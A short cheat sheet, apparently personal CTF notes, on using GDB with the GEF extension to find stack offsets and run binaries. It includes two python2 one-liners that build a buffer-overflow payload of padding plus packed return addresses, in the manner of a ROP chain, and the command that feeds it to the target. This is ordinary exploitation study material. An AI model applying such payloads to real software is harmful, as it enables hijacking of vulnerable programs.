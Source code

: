 Gdb/Gef
=======
{% highlight bash%}
pattern create 200          :Create cyclic patterm
pattern offset              :Get the offset based on the value off RSP/ESP
info functions              :List fonctions
break * 0x00                :Break at 0x00

#python2 -c 'import struct;print "A"*40 + struct.pack("Q",0x400883)+struct.pack("Q",0x601060)+struct.pack("Q",0x4005e0)' > input
#python2 -c 'from pwn import *;print("A" * 40 + p64(0x0400883) + p64(0x00601060) + p64(0x00400810))' > input

r < input                   :Injecting payload to input
{% endhighlight %}
Additional ressources:
- [gef.readthedocs.io][link1]
- [hugsy][link2] 

[Back to the top](#header)
